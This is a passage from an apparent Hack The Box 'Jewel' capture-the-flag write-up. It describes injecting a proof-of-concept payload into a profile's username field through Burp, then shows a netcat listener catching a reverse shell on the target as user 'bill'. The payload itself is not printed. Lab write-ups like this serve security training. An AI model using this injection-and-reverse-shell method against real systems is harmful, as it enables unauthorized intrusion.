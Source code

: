 After all of that work, it was pretty easy to follow the instructions in the POC to create the payload.  

![](../../.gitbook/assets/4-burp-payload.png)

captured request to change the username on the 'edit profile' page in burp, then added my payload in place of the username field

![](../../.gitbook/assets/4-burp-payload-error.png)

On the exit profile page, got an error message after sending my payload in place of the username field, but  the payload still executed.

## Initial Foothold

```text
zweilos@kali:~/htb/jewel$ script
Script started, output log file is 'typescript'.
┌──(zweilos㉿kali)-[~/htb/jewel]
└─$ bash      
zweilos@kali:~/htb/jewel$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.13] from (UNKNOWN) [10.10.10.211] 40016
bash: cannot set terminal process group (818): Inappropriate ioctl for device
bash: no job control in this shell
bill@jewel:~/blog$
```
